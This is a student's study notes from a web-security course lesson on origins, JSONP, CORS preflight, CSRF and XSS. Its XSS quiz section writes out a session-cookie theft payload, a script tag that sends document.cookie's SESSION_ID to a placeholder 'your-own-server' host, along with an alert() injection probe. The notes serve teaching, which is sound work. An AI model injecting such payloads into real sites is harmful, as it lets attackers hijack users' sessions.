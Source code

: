 # Lesson 12: security

### Security intro
### Origins
* An origin is made up of three parts:
  * Data Scheme: `https://`
  * Hostname: `www.udacity.com`
  * Port: `:443`
* cross-origin fetch requests: you can make the request, but you just canNOT read the response

### Origins 2
* same-origin policy: browser-enforced, the client will NOT let you send off requests
* eg different resources:
  * you can't inspect a image within a canvas element
  * you can't see content of script tag that includes a cross-origin resource

### Overriding same origin policy
* CORS
* JSONP: JSON with padding, returns a script containing the data
  * script from other origin will execute and share the same environment with your own script
  * JSONP api requires you to includes the function name as query parameter
* example:
  ```js
  // your personal site: mycourses.com
  // make a fetch request to udacity.com to see all your enrolled courses
  fetch("https://api.udacity.com/courses?status=enrolled")
  // then, the return data will be ["course1", "course2", ...]
  // however, this will fail b/c CORS policy, your host is different from udacity host

  // to solve this, we use JSONP (this the api supports JSONP)
  <script src="https://api.udacity.com/courses?status=enrolled&callback=f">
  // Cross-origin script access allowed!
  // the server will return all data, wrapped in a function call
  // f(["course1", "course2", ...])
  // note: you need to create the call back function 'f'
  ```

### CORS
* CORS headers allow cross-origin requests
  ```
  // REQUEST: use preflight requests
  OPTIONS /
  Referer: mycourses.com

  // RESPONSE: only headers are sent
  200 OK
  Access-Control-Allow-Origin: mycourses.com

  // REQUEST: with CORS header
  GET /courses?status=enrolled
  Host: api.udacity.com
  Referer: mycourses.com

  // RESPONSE: with CORS header
  HTTP/1.1 200 OK
  Date: Mon, 20 May 2017 00:12:32 GMT
  Access-Control-Allow-Origin: mycourses.com
  Connection: Keep-Alive
  Content-Type: application/xml
  ```
* CORS has been adopted by the API providers as a way to share resources

### Quiz: preflight request with CORS
* most GET request is not preflight

### Quiz: preflight request with CORS 2
```js
fetch('http://www.example.com", {
  method: "POST",
  mode: "cors",
  headers: { "X-FOrwarded-For": "www.google.com"} // this line causes request to be preflighted
});
```

### Quiz: preflight request with CORS 3
```js
fetch('http://www.example.com", {
  method: "PUT", // this line causes request to be preflighted
  mode: "cors",
  headers: { "Accept": "text/html"}
});
```
### Security Exploit - CSRF
* requests that looks like they came from a form will not be preflighted
* CSRF - cross-site request forgery
* CSRF token

### Quiz: CSRF
### security Exploit - XSS
* XSS: cross-site scripting, when JS is injected into a website and can access its data
* eg: input box (that is not secured or validated):
  * `MyName<script>alert('Code was evaluated!');</script>`
  * the code will be executed without the user's knowledge
  * hence: ALWAYS validate your user's input from server-side

### Quiz: XSS
* to get session id's value:
  `document.cookie.slice(document.cookie.indexOf('SESSION_ID')).split('=')[1];`
* to inject javascript into input field:
  `<script>fetch('http://your-own-server/?key=<cookie_value_above>');</script>`
* checkout https://xkcd.com/327/: ![xkcd.com/327](https://imgs.xkcd.com/comics/exploits_of_a_mom.png "xkcd.com/327")

### Security outro
* back-end needs to implement validation to keep your user secure
* there's always potential risk, so better to protect your self from CSRF or XSS

### Course outro
